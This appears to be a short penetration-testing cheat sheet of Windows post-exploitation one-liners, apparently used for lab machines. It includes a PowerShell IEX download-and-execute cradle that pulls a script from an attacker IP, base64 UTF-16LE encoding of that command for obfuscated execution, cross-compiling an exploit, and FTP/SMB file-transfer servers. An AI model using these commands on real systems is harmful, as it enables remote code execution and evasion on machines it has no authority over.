 # Convert Powershell Code into base64 Encoded UTF-16LE String
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0

# Convert Powershell Code into base64 Encoded UTF-16LE String (Python)
from base64 import b64encode
b64encode('iex(command)'.encode('UTF-16LE'))

# Convert Powershell Code into base64 Encoded UTF-16LE String (Ruby)
require "base64"
Base64.encode64('iex(command)'.force_encoding('UTF-16LE'))

# Execute a powershell encoded command
powershell -ec "<Base64UTF16LEEncodedString>"

# Compile windows exploit in linux
i686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe

# Compiling python scripts to executables
wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py

# Download a file from powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOURIP:8000/afile.exe','C:\Users\YOURUSER\Desktop\afile.exe')"

# Open an FTP Server (from python)
pip install pyftpdlib
python -m pyftpdlib -p 21

# Open an FTP Server (from metasploit)
use auxiliary/server/ftp
auxiliary/server/tftp

# Open an SMB Server
python smbserver.py SHARENAME /dir
python smbserver.py SHARENAME $(pwd)
smbserver.py devel /root/Desktop/htb/devel 
On the client:
net use z: \\<serverIP>\<sharename>
or
copy filename \\<serverIP>\<sharename>
